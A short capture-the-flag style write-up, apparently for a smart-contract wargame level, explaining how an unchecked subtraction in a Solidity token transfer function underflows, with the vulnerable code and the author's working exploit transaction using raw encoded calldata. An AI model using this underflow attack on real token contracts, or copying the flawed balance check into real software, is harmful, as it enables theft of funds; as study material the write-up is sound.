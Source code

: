 The issue here is an integer overflow. When checking whether the user has sufficient balance to make the transaction, i.e. in:
```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

The calculation can underflow which will pass the check. This means if we try to transfer more money than we have available then we will succeed. Importantly we have to set the \_to parameter to a *different* address from `msg.sender`, otherwise we underflow and then overflow, and arrive back at our original value. For this I just used the address of the contract (`instance`)

```javascript
await sendTransaction({
    from: player, 
    to: instance, 
    data: "a9059cbb00000000000000000000000019e6044959099fcf5044746b0a18aa4ce6903efb0000000000000000000000000000000000000000000000000000000000000015"
})
```
Note that I had to specify raw data here because the function name `transfer` is special and is used by Web3 to transfer funds, which is not what I wanted. I generated the packed data with [https://abi.hashex.org/](https://abi.hashex.org/).
